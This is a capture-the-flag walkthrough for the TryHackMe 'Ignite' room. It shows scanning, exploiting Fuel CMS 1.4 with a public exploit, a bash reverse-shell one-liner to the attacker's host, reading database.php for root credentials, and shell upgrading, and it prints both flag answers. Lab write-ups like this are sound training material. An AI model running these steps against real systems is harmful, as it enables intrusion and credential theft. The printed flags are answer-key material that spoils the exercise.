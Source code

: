 
# [Ignite](https://tryhackme.com/room/ignite)

> A new start-up has a few issues with their web server

## Scanning

Scan the target with nmap

```
nmap -A -T4 10.10.138.185
```

![image](https://user-images.githubusercontent.com/90561566/188138041-0e800d6a-7fc8-41a8-8bb4-e9535589f31d.png)

Hmm, found only 1 open port 80 (http)

## HTTP

Go to the web page

![image](https://user-images.githubusercontent.com/90561566/188138642-85ed4d57-3ec3-4467-bed3-dde8f7355691.png)

It's default page of fuel cms 1.4

## Enumeration

Gobuster to discover hidden directory

```
gobuster dir -u http://10.10.138.185 -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/188139192-d3977108-ff1f-43e1-b05b-5f6b4d0a6b41.png)

I connected to /0/ and /home/ directory and maybe in vain

![image](https://user-images.githubusercontent.com/90561566/188139966-5029d435-ba8f-4ceb-ba6d-a7a5f464cdbb.png)

I had logggd in and see nothing too

## Exploitation

I search exploit for fuelcms

```
searchsploit fuelcms 1.4
```

![image](https://user-images.githubusercontent.com/90561566/188140509-e7f1d285-a42e-4e56-bb53-75ce63f1e2af.png)

copy exploit

```
searchsploit -m 47138.py
vi 47138.py
```

change line 14 to target ip

![image](https://user-images.githubusercontent.com/90561566/188140922-cc1950b3-b5cc-46e5-a836-27ab5cd654f4.png)

```
chmod +x 47138.py
python 47138.py
```

![image](https://user-images.githubusercontent.com/90561566/188256466-ef67f34d-b02c-421e-b8f1-f15a6393e4a9.png)

now we open a reverse shell to control easily

```
vi rev.sh
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

open 2 tab

```
python3 -m http.server 80 # http server to download file
and
nc -vlnp 4444 # netcat listener on port 4444
```

next

![image](https://user-images.githubusercontent.com/90561566/188258559-b452576b-a916-4c41-b363-ba8633f969d4.png)

![image](https://user-images.githubusercontent.com/90561566/188258613-6d26529d-c131-401b-b075-8e214dc59ead.png)

![image](https://user-images.githubusercontent.com/90561566/188258643-545ca4a4-bc4e-48ff-b7dd-5259cef13e47.png)

okay, we got a shell

![image](https://user-images.githubusercontent.com/90561566/188258669-b25aaa28-44ff-4efe-b405-4077b1fa26c4.png)

search flag on /home

![image](https://user-images.githubusercontent.com/90561566/188258710-0b59be70-6923-4025-969f-8b4e9fc3e659.png)

| Flag | User.txt |
| --- | --- |
| Answer | 6470e394cbf6dab6a91682cc8585059b |

## Privilege Escalation

I tried `sudo -l -l` but it didn't work

![image](https://user-images.githubusercontent.com/90561566/188258803-f8a5356b-c65f-4b64-aa0e-cf56bc438f19.png)

during reconnaissance i noticed some instructions related to Database configuration on the webpage

![image](https://user-images.githubusercontent.com/90561566/188258939-44efe6c8-f5e6-4b8f-a8a6-347bc6c00804.png)

```
cat fuel/application/config/database.php
```

![image](https://user-images.githubusercontent.com/90561566/188258995-6329d359-e685-4b0c-9cf1-042a6be1919c.png)

there is it

![image](https://user-images.githubusercontent.com/90561566/188259024-19eed0e6-7dcb-43ba-9703-c8d01e3c6ec6.png)

user: root, pass: mememe

![image](https://user-images.githubusercontent.com/90561566/188259227-9b187eef-6ca7-4700-bf76-f0840007dca6.png)

i got an error, after gg search, here is the solution

```
python -c 'import pty; pty.spawn("/bin/sh")'

echo os.system('/bin/bash')

/bin/sh -i
```

![image](https://user-images.githubusercontent.com/90561566/188259287-2f59492d-31f2-440b-96a1-44d7c0665678.png)

here you are

![image](https://user-images.githubusercontent.com/90561566/188259334-cb02362c-d167-471a-848e-8a9cb86ed442.png)

| Flag | root.txt |
| --- | --- |
| Answer | b9bbcb33e11b80be759c4e844862482d |
